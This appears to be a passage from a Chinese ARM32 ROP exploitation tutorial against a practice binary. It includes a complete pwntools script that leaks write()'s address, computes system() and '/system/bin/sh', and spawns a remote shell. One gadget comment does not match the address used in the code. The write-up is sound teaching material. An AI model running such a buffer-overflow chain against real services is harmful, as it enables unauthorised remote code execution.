 另外需要注意的是write()函数是三个参数，因此我们还需要控制r1和r2才行，刚好程序中有如下gadget可以满足我们的需求：

```
#!bash
#0x0000863a : pop {r1, r2, r4, r5, r6, pc}
```

另外为了能再一次返回`vulnerable_function()`，我们需要构造好执行完write函数后的栈的数据，让程序执行完`ADD SP, SP`,`#0x84`;`POP {PC}`后，PC能再一次指向`0x000084D8`。

![image-20190213013600771](assets/hacker_rop_arm32/image-20190213013600771.png)

最终的explevel9.py如下：

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x00008a12 : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x000088be + 1

#0x0000863a : pop {r1, r2, r4, r5, r6, pc}
gadget2 = 0x0000863a + 1

#.text:000084D8 vulnerable_function
ret_to_vul = 0x000084D8 + 1

#write(r0=1, r1=0x0000AFE8, r2=4)
r0 = 1
r1 = 0x0000AFE8
r2 = 4
r4 = 0
r5 = 0
r6 = 0
write_addr_plt = 0x000083C8

payload =  '\x00'*132 + p32(gadget1) + '\x00'*0xc + p32(r0) + '\x00'*0x4 + p32(gadget2) + p32(r1) + p32(r2) + p32(r4) + p32(r5) + p32(r6) + p32(write_addr_plt) + '\x00' * 0x84 + p32(ret_to_vul)

p.send(payload)

write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
#.text:000253A4                 EXPORT system
#.text:00020280                 EXPORT write

r0 = write_addr + (0x0003F9B4 - 0x00020280)
system_addr = write_addr + (0x000253A4 - 0x00020280) + 1

print 'r0=' + hex(r0)
print 'system_addr=' + hex(system_addr)

payload2 =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(system_addr)

p.send(payload2)

p.interactive()
```